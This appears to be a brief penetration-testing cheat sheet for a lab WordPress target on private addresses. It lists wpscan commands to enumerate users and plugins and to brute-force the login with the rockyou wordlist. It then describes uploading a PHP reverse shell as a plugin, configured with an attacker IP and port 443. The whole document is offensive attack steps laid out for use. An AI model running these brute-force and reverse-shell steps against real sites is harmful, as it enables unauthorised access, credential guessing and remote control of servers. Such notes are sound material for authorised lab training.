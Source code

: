 Wordpress commands
==================

**Enumerating users**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u

__2 - Bruteforce wp login page ___

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

__3 - Enumerating wordpress users and plugins __

wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


Reverse shell exploits
======================

__Exploit Method 1__

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.

Download and Edit the following file content

$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location

https://192.168.1.30:12380/blogblog/wp-content/uploads/


